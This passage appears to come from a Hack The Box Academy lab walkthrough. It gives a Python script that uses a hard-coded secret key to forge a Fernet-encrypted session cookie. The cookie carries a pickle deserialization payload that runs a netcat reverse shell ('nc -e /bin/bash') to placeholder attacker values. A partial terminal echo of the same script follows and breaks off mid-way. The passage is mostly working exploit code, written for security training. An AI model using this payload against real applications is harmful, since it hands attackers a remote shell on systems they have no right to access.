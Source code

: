 Students can use `cat` to save the Python script into a file:

Code: shell

```shell
cat << 'EOF' > generateCookie.py
#!/usr/bin/python3

import os
import pickle
import base64
import hashlib
from cryptography.fernet import Fernet

SECRET_KEY = '@s3cur3P!ck13K3y'

class encryptAES:
    def __init__(self, data):
        self.data = data
        self.key = base64.b64encode(hashlib.sha256(SECRET_KEY.encode()).digest()[:32])
        self.f = Fernet(self.key)
    def encrypt(self):
        encrypted = self.f.encrypt(self.data)
        return base64.b64encode(encrypted).decode()
    def decrypt(self):
        encrypted = base64.b64decode(self.data)
        return self.f.decrypt(encrypted)

class RCE():
        def __reduce__(self):
                return os.system, ("nc -nv PWNIP PWNPO -e /bin/bash",)

notes = {"Title":"","Text":"","Date":RCE()}

s = pickle.dumps(notes)
e = encryptAES(s).encrypt()
print(e)
EOF
```

```shell
┌─[eu-academy-1]─[10.10.14.162]─[htb-ac413848@htb-qmmsulophr]─[~/htbrain-src]
└──╼ [★]$ cat << 'EOF' > generateCookie.py
> #!/usr/bin/python3

import os
import pickle
import base64
import hashlib
from cryptography.fernet import Fernet

SECRET_KEY = '@s3cur3P!ck13K3y'

class encryptAES:
    def __init__(self, data):
        self.data = data
        self.key = base64.b64encode(hashlib.sha256(SECRET_KEY.encode()).digest()[:32])
        self.f = Fernet(self.key)
    def encrypt(self):
        encrypted = self.f.encrypt(self.data)
        return base64.b64encode(encrypted).decode()
    def decrypt(self):
        encrypted = base64.b64decode(self.data)
        return self.f.decrypt(encrypted)

```